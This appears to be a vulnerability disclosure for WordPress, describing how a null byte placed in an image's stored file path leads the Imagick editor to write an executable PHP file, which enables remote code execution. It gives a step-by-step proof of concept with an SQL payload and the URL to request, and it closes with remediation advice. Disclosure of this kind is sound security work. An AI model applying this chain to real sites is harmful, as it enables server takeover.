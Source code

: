 # WordPress null byte to RCE - 0 day bug

It is common knowledge that non binary safe functions in PHP should be avoided e.g. to be replaced from legacy code with binary safe alternatives.

What we have in the WP core `class-wp-image-editor-imagick`

```
$this->make_image( $filename, array( $image, 'writeImage' ), array( $filename ) );
```

and we all know that PHP imagick prefers `writeImageFile` before `writeImage` because it is binary safe. What does this mean?
This means if WP uses `class-wp-image-editor-imagick` as default image editing engine we can salute our RCE because we are null byte away from it when `save` e.g. `_save` method is called.

## Eli5 PoC

- upload media file to your local WP called "nullbyte.jpg"
- get its post id ( mine is 91 )
- open mysql administration tool and issue following query:

```
UPDATE `wp_postmeta` SET `meta_value` = concat('2020/07/nullbyte.jpg#','/go.php',char(0),'.gif' ) WHERE `wp_postmeta`.`post_id` = 91 and `wp_postmeta`.`meta_key` = '_wp_attached_file'
```

- go to media library, crop image + save
- navigate to https://wp.local/wp-content/uploads/2020/07/nullbyte.jpg%23/go.php

## Few facts
- Images manipulated with PHP Imagick will hold their old meta data (php shells / code will remain intact)
- WP core had put a lot of efforts to protect `_wp_attached_file` meta value, but it is bypassable (next days disclosure)
- WP in 5.5 via its site-health will warn users that they need to use ImageMagic on their servers :/
- WP core via its site-health push users to install/configure WP in that way so core files are writable by web server
- have you ever heard about https://github.com/Slavco/wp-weaver :)
- there are few another attack vectors than described above

## remediation
- uploads dir shouldn't be able to run PHP code
- core files shouldn't be writable by www-data user
